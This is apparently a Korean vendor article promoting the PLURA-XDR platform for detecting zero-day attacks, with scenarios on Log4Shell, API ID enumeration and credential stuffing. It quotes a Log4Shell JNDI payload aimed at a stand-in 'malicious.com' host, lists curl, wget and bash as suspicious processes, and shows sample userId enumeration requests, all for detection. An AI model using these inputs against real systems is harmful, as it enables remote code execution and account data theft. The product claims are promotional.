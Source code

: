 ### **📌 제로 데이(Zero-Day) 공격 탐지 및 대응 – 사례 및 시나리오**  

#### **🔍 제로 데이 공격이란?**  
**제로 데이 공격(Zero-Day Attack)**은 보안 취약점이 발견되었지만, 아직 공식적인 패치나 대응 방법이 제공되지 않은 상태에서 공격자가 이를 악용하는 사이버 공격입니다.  
기존 보안 시스템(SIEM, WAF, NDR 등)은 **이미 알려진 공격 패턴(시그니처, 룰 기반 탐지)에 의존하기 때문에** 제로 데이 공격을 탐지하기 어렵습니다.  

PLURA의 **웹 요청 본문 로그 분석 + EDR**을 활용하면, 제로 데이 공격을 보다 효과적으로 탐지하고 대응할 수 있습니다.  

---

## **📌 제로 데이 공격 사례 및 탐지 시나리오**  

### **📌 사례 1: Log4j(Log4Shell) 취약점 공격 탐지**  
#### **📌 공격 개요**  
2021년 12월, **Log4j(Log4Shell) 취약점(CVE-2021-44228)**이 발견되었습니다.  
- 공격자는 웹 애플리케이션의 **입력 필드(검색창, 로그인 폼 등)**에 **특정 문자열(JNDI 요청 포함)**을 삽입하여 원격 코드 실행(RCE, Remote Code Execution)을 수행할 수 있었습니다.  
- WAF 및 기존 보안 솔루션이 이 패턴을 알기 전까지는, 탐지가 어려운 전형적인 제로 데이 공격이었습니다.  

#### **📌 기존 WAF/보안 시스템의 한계**  
- WAF는 **시그니처 기반 필터링**에 의존하여 알려진 공격 패턴이 없으면 탐지 불가.  
- SIEM은 **로그 기반 상관 분석**을 수행하지만, 요청 본문에 포함된 악성 문자열 분석이 어려움.  
- NDR은 네트워크 트래픽을 분석할 수 있지만, **웹 요청 본문(Post-body, JSON, XML 등)의 정밀 분석은 부족함**.  

#### **📌 PLURA 웹 요청 본문 분석 + EDR 탐지 방법**  
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
- PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 의심스러운 패턴을 탐지 가능.  
- 검색창, 유저 입력값, 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  

✅ **2) EDR 연계를 통한 공격 실행 탐지 및 차단**  
- 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우, PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트(Fork, Execve) 탐지**.  
- `curl`, `wget`, `bash` 등의 의심스러운 프로세스 실행 감지 후 자동 차단 가능.  

✅ **3) 행위 기반 분석 및 상관 탐지를 통해 추가 공격 탐지**  
- 기존 공격 패턴과 일치하지 않아도, **LDAP/RMI 요청 이후 특정 프로세스가 실행되는 패턴을 탐지하여 추가 공격 차단**.  

---

### **📌 사례 2: 웹 애플리케이션의 신규 API 취약점 악용 (Zero-Day API Attack)**  
#### **📌 공격 개요**  
어떤 웹 애플리케이션이 신규 API 기능을 추가했지만, 이 API에 **적절한 인증 및 접근 제어가 적용되지 않음**.  
- 공격자는 **API 엔드포인트(예: `/api/getUserData` 또는 `/api/resetPassword` 등)**를 브루트포싱하여 사용자 계정 정보를 탈취.  
- 정상적인 API 요청처럼 보이므로, **기존 보안 솔루션(WAF, NDR, SIEM)은 이를 탐지하기 어려움**.  

#### **📌 기존 WAF/보안 시스템의 한계**  
- WAF는 **정상적인 API 요청처럼 보이면 탐지 불가**.  
- SIEM은 **로그 기반 분석이므로, 해당 API 요청이 반복되는 이상 행위를 실시간 탐지 어려움**.  
- NDR은 **네트워크 트래픽의 이상 탐지는 가능하지만, API의 내부 로직 및 요청 본문 분석 불가**.  

#### **📌 PLURA 웹 요청 본문 분석 + EDR 탐지 방법**  
✅ **1) API 요청 본문을 분석하여 비정상적인 요청 패턴 탐지**  
- 동일한 사용자가 **짧은 시간 동안 여러 사용자 계정의 정보를 요청하는 경우** 이상 탐지 가능.  
- 정상적인 API 호출과 비교하여 **비정상적인 파라미터 조작(예: User ID 변경, Role 변경 등) 탐지 가능**.  

✅ **2) 웹 애플리케이션 로그와 사용자 행동 데이터를 상관 분석**  
- 정상 사용자는 `GET /api/getUserData?userId=1234` 요청을 한 번만 수행하지만,  
  - 공격자는 여러 `userId`를 변경하여 반복 요청 (`GET /api/getUserData?userId=5678`, `userId=91011` 등).  
- 이러한 **비정상적인 액세스 패턴을 분석하여 자동 탐지 및 차단 가능**.  

✅ **3) EDR을 활용한 추가 보안 탐지**  
- API를 악용하여 웹 서버에 악성 페이로드가 업로드될 경우,  
  - **파일 무결성(FIM, File Integrity Monitoring) 기능을 통해 웹 서버 파일이 변조되는 즉시 탐지 가능**.  

---

### **📌 사례 3: 크리덴셜 스터핑을 이용한 계정 탈취 공격 (Zero-Day Credential Stuffing Attack)**  
#### **📌 공격 개요**  
- 공격자는 다크웹에서 유출된 계정 정보를 활용하여 로그인 시도를 반복하여 성공한 계정을 확보.  
- 기존 보안 솔루션은 **정상적인 로그인 요청과 동일하게 보이기 때문에 탐지 어려움**.  

#### **📌 기존 WAF/보안 시스템의 한계**  
- WAF는 **정상적인 로그인 요청처럼 보이면 탐지 불가**.  
- SIEM은 **로그인 실패 횟수를 기록하지만, 공격 패턴을 실시간 분석 어려움**.  
- NDR은 **트래픽 이상 탐지는 가능하지만, 로그인 요청 본문 분석 불가**.  

#### **📌 PLURA 웹 요청 본문 분석 + EDR 탐지 방법**  
✅ **1) 로그인 요청 패턴을 실시간 분석하여 크리덴셜 스터핑 공격 탐지**  
- 동일 IP에서 짧은 시간 내 다수의 로그인 요청 감지.  
- 동일 User-Agent에서 여러 사용자 계정으로 로그인 시도 시 탐지.  

✅ **2) AI 기반 이상 탐지 적용**  
- 정상 사용자의 로그인 패턴과 비교하여 **비정상적인 로그인 시도 탐지**.  
- 특정 시간대에 급증하는 로그인 시도를 자동 감지하여 차단 가능.  

✅ **3) 사용자 행동 분석 및 MFA 강제 적용 가능**  
- 로그인 시도 후 즉시 비정상적인 행동(예: 비밀번호 변경, 2FA 설정 변경 등)이 감지되면 **즉각 차단 및 추가 인증 요구**.  

---

### **📌 결론: PLURA 웹 요청 본문 분석 + EDR을 통한 제로 데이 탐지 및 대응**  

✅ **기존 보안 시스템(WAF, SIEM, NDR, TI)은 알려진 공격 패턴만 탐지 가능하므로, 제로 데이 공격을 효과적으로 탐지하지 못함.**  
✅ **PLURA의 웹 요청 본문 분석은 새로운 공격 패턴을 실시간으로 분석하여, 알려지지 않은 제로 데이 공격 탐지 가능.**  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단.**  
✅ **공격 흐름을 상관 분석하고 이상 행위를 탐지하여, Zero-Day 공격이 실시간으로 탐지 및 차단될 수 있도록 지원.**  

🔹 **PLURA-XDR은 웹 요청 본문 분석과 EDR을 결합하여 기존 보안 솔루션이 탐지하지 못하는 제로 데이 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀
